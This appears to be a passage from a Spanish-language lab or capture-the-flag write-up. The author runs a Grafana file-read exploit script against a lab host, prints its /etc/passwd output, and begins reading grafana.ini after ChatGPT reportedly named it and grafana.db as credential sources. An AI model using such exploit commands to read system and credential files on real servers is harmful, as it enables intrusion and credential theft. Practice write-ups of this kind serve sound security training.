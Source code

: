 Vamos a probarlo:
```bash
python3 GrafanaExploit.py -H http://192.168.100.130:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:118:MySQL Server,,,:/nonexistent:/bin/false
grafana:x:115:120::/usr/share/grafana:/bin/false
cloud:x:1001:1001:,,,:/home/cloud:/bin/bash
```
Excelente, funcionó y podemos ver que existe un usuario llamado **cloud**.

De acuerdo con **ChatGPT**, existen 2 archivos críticos que pueden darnos información valiosa sobre **Grafana**. Estos son:
* Archivo `/etc/grafana/grafana.ini`: Este es el archivo de configuración de **Grafana**, puede contener credenciales de acceso (similar al **wp-config.php** de **WordPress**).
* Archivo `/var/lib/grafana/grafana.db`: Esta es la BD **sqlite** que puede contener usuarios, dashboards, tokens, a veces hashes, etc.

Primero, veamos si podemos leer el archivo **grafana.ini**:
```bash
python3 50581.py -H http://192.168.100.130:3000
Read file > /etc/grafana/grafana.ini                        
##################### Grafana Configuration Example #####################
#
# Everything has defaults so you only need to uncomment things you want to
# change
```
Ahí está, pero es muy largo el archivo.
